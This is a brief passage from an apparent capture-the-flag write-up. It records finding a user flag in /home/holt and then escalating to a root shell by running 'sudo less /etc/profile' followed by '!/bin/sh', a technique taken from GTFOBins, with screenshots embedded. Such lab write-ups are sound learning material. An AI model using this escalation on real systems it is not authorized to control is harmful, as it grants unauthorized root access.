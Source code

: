 We got the `user.txt on /home/holt`.

<img src="https://user-images.githubusercontent.com/67650329/195988815-aecfffd5-1bc3-4f4c-b402-99706c52d653.png" width="500px" align="center">

We search script on https://gtfobins.github.io

`sudo less /etc/profile`

`!/bin/sh`

<img src="https://user-images.githubusercontent.com/67650329/195988886-58b84728-8b81-4e2b-8264-e4aecbd03895.png" width="300px" align="center">

---
